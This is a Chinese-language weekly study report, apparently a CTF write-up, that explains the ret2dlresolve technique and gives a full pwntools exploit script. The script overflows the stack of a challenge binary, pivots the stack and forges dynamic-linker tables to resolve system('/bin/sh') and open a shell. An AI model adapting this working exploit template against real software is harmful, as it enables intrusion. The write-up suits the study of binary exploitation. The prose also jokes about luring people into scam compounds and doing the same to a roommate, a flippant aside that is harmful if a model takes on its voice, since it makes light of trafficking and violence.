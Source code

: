 ##### 6:ret2dl

​	我们都知道,对于一个已经被调用过的函数,它的真实地址会被存放在got表中.也就是说,~~对于一个没有被调用过的函数,它的真实地址就不会被存放在got表中~~必然存在一个机制,可以找到函数的地址,将它们存入got表.这个机制就是`_dl_runtime_resolve`.而我们利用它的方法,就是设法让它去解析我们需要的函数.

​	整个的过程比较复杂,从某种程度上来说有点类似把人骗去缅北,首先给你发假的招募信息,然后把你接到假的公司,再把你送上假的大巴,最后半路一棍子把你敲晕.(你也可以用类似的过程处理你的室友)

​	当然,完成这类题目并不需要给出题人发生假的招募信息.我们只需要给程序发假的地址让它执行dl_runtime_resolve函数,然后给他发送假的plt表,用假的plt表把程序骗到假的符号表,最后根据假的符号表指向的假的字符表去解析~~假~~真的system()函数.(如果不成功,你可以再去考虑上面的方案)

​	那么让我们看看解题脚本:

```python
from pwn import *
context.log_level = 'debug' #输出调试信息
#context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
name = './pwn1'	#程序名
p = process(name)
#p=remote('chall.pwnable.tw', 10103)
elf= ELF(name)
#libc = ELF('./libc_32.so.6')
if args.G:	#我们可以在启动脚本时附加G参数来进入gdb调试 例如 python 00.py G 当然,它可以是任何你喜欢的名字.
    gdb.attach(p)

#获取各个表的地址
rel_plt_addr = elf.get_section_by_name('.rel.plt').header.sh_addr   #0x8048330
dynsym_addr =  elf.get_section_by_name('.dynsym').header.sh_addr    #0x80481d8
dynstr_addr = elf.get_section_by_name('.dynstr').header.sh_addr     #0x8048278

#resolve 函数地址
resolve_plt = 0x08048380
#learet地址
leave_ret_addr = 0x0804851d
#我也不知道这是干啥的,反正应该是个可写的地址
start = 0x804aa00

fake_rel_plt_addr = start #我们未来会把假的plt表放到这里
fake_dynsym_addr = fake_rel_plt_addr + 0x8 #因为fake_plt长度为0x8,所以假的符号表就在它后面0x8的位置.(如果这个程序为64位,这个长度大概就会变成0x10)
fake_dynstr_addr = fake_dynsym_addr + 0x10 #同理
bin_sh_addr = fake_dynstr_addr + 0x7 #/bin/sh在字符串内的相对偏移

n = fake_rel_plt_addr - rel_plt_addr #有点类似数组越界,比如我们有一个b[10],但我们让它去访问*(b+114514)

r_info = (int((fake_dynsym_addr - dynsym_addr)/0x10) << 8) + 0x7 #寻址索引
str_offset = fake_dynstr_addr - dynstr_addr #字符表的偏移


fake_rel_plt = p32(elf.got['read']) + p32(r_info) #got表指针和寻址索引,前者指向read,覆写read的got表指向system,后者指向假的符号表
fake_dynsym = p32(str_offset) + p32(0) + p32(0) + p32(0x12000000)
#符号的名字符串指针 符号地址 符号大小 符号绑定/类型/可见性/段索引 
#其中指针指向我们的假字符表,地址不需要管,因为我们还没绑定上(等下就被覆写了)
#大小应该不需要管(心虚)
#最后的可见性和段索引也不需要管(表示默认可见性和段索引未指定)绑定设为全局(0x1),类型设为函数(0x2)
fake_dynstr = b"system\x00/bin/sh\x00\x00" #符号名(system)和它的参数


pay1 = b'a'*108 + p32(start - 20) + p32(elf.plt['read']) + p32(leave_ret_addr) + p32(0) + p32(start - 20) + p32(0x100) #栈迁移,写到start-0x14的位置(pay2中那一堆表前面的字符的长度为0x14)
p.recvuntil('Welcome to RET_TO_DL~!\n')
#p.recvuntil("Nice to meet you~!\n")
p.sendline(pay1)
sleep(1) #八点了,啊,该摸了(我刚学python的时候曾经干过Sleep(1000)然后查半天程序为啥卡住的事)
pay2 = p32(0x0) + p32(resolve_plt) + p32(n) + b'aaaa' + p32(bin_sh_addr) + fake_rel_plt + fake_dynsym + fake_dynstr #执行resolve_plt(n),并传入伪造的三个表
p.sendline(pay2) #发生payload2,收工
#这堆东西是输出这些值给我们看的
success(".rel_plt: " + hex(rel_plt_addr))
success(".dynsym: " + hex(dynsym_addr))
success(".dynstr: " + hex(dynstr_addr))
success("fake_rel_plt_addr: " + hex(fake_rel_plt_addr))
success("fake_dynsym_addr: " + hex(fake_dynsym_addr))
success("fake_dynstr_addr: " + hex(fake_dynstr_addr))
success("n: " + hex(n))
success("r_info: " + hex(r_info))
success("offset: " + hex(str_offset))
success("system_addr: " + hex(fake_dynstr_addr))
success("bss_addr: " + hex(elf.bss()))
p.interactive()
```

​	那么本次周报就到这里.